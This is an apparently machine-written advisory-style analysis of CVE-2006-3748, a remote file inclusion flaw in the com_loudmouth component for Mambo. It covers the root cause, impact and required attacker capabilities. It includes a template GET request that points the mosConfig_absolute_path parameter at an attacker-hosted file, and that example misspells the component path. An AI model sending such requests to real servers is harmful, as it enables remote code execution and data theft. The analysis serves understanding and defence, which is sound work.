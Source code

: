 Based on the provided information, here's an analysis of CVE-2006-3748:

**Root Cause of Vulnerability:**

*   The vulnerability is due to a remote file inclusion flaw in the `abbc.class.php` file of the `com_loudmouth` component for Mambo.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The `abbc.class.php` script includes a file using a path constructed from the `$GLOBALS['mosConfig_absolute_path']` variable. This variable can be manipulated by an attacker, allowing them to include a remote file.
*  The vulnerable code is in  `include( $GLOBALS['mosConfig_absolute_path'].'/components/com_loudmouth/includes/abbc/abbc.config.php');`

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious remote file, an attacker can execute arbitrary code on the server, leading to a full system compromise.
*   **Data Breach:**  An attacker could gain access to sensitive data, modify or delete the existing data on the server.
*   **Website Defacement:** Attackers can also deface the affected websites.

**Attack Vectors:**

*   **HTTP GET Request Manipulation:** The attacker can modify the `mosConfig_absolute_path` parameter within the URL of a GET request to point to their malicious file. Example:
    `http://[site]/[path]/components/com_loudmounth/includes/abbc/abbc.class.php? mosConfig_absolute_path=[attacker]`

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **Malicious File Hosting:** The attacker needs a web server to host the malicious file they wish to include on the victim server.
*   **Understanding of Vulnerable Component:** The attacker needs to know the path to vulnerable script and the vulnerable parameter.

**Additional Notes**
* The vulnerable component is `com_loudmouth` version `4.0j` for Mambo.

The provided exploit code snippet in the exploit-db entry confirms the root cause of the vulnerability as remote file inclusion.